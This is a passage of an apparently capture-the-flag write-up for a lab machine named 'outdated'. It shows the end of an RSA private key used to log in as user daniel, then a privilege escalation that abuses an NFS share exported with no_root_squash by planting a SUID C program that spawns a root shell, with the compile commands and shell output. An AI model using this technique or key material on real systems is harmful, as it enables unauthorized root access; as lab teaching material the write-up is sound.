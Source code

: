 ```
ovjCWEhjlSoPA0NRPQsEnJPQ2vj2QWE08nD+rI/GyXv4EuY5MKwN+9UCgYEAzWU+
mOmExpT0SVQ4sZjduhjKsRQyhFKZSjvDPCRGraX4wAKWR5JATX+oitvh4c58wkQV
sta4G/LScIy2AcZfr4Ir2wv3hm8zXQ55u7+1zlY0vhycrCA7usncZbzDXYOgOgDh
n5MDmNaCUmj6enzm0Mjk6m7M5khpPmbVNfFsxpcCgYBQc/w6xtTAnT8sqytFZJfT
epvNs0i8v1OUeUqnl/XJnVAIdoy6aYJGLv7mmqbXxBpEc7D/VuXNaxOT5mo608SH
TeFncK4DY84oZ6owunSJq2ADz+rdjlg+L2ooE5S5aIJHjjyz4Z5+sjXCPmC2Iq/E
eqWmpEsH9c6GoExDWn4NHQKBgAn+lDYynsBe/SgYTg3uR1PH4w0M04x2zHi9QbnK
dhn7CoilV5Sx/CkJPjVLj8lCF/YIBBpIsnrBrRXG8xBRC9Tpe6LUCT5kaNZtXuUQ
5hLdRQG/OKxzgRSMwAm/Tq5dOk24P0JZkAI+5eaGrzGIpF6id+kkbRoDigN8U4Gl
dsqPAoGADyJJsxRBS4SoT6Q9cq7GgTY73Csz75sHHDcxrC9Eb0IaQnMbz6SlvlLE
p/iY3kZTa6NuTjx+AnAuT2Mki7EfEiJPWJ7MnEM/9L0459Eny9QKwEWFqb1lE9YX
L5NtfX59gDlgIFlLdZ1aYmjgQuaAhs2GIMzjplGHn9isvD4+AdM=
-----END RSA PRIVATE KEY-----
```
Now we can login to the machine as `daniel`.

### PRIV ESC

After running linpeas.sh I saw some interesting output for an exploit I haven't seen before
```
[+] NFS exports?
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
/var/nfsbackups *.*.*.*(rw,sync,no_subtree_check,no_root_squash,insecure)
```
Due to the fact we have write privileges to the share and there is the "no_root_squash" option, we can place in a SUID C program and execute it as daniel to spawn a shell as root:
```
int main(void){
    setresuid(0, 0, 0);
    system("/bin/sh");
    return 0;
}

ATTACKING MACHINE:
gcc payload.c -o payload

chmod +s payload

VICTIM MACHINE:
daniel@outdated:/var/nfsbackups$ ls -la
total 44
drwxr-xr-x  5 daniel daniel  4096 Jul 12 14:38 .
drwxr-xr-x 12 root   root    4096 Jul  2 11:40 ..
drwxr-xr-x  2 daniel daniel  4096 Jul 12 14:30 anna
drwxr-xr-x  2 daniel daniel  4096 Jun 30 07:37 daniel
-rwsr-sr-x  1 root   root   16664 Jul 12 14:38 payload
-rw-r--r--  1 root   root      78 Jul 12 14:38 payload.c
drwxr-xr-x  2 daniel daniel  4096 Jun 30 07:37 robert

daniel@outdated:/var/nfsbackups$ ./payload 
# whoami
root
```
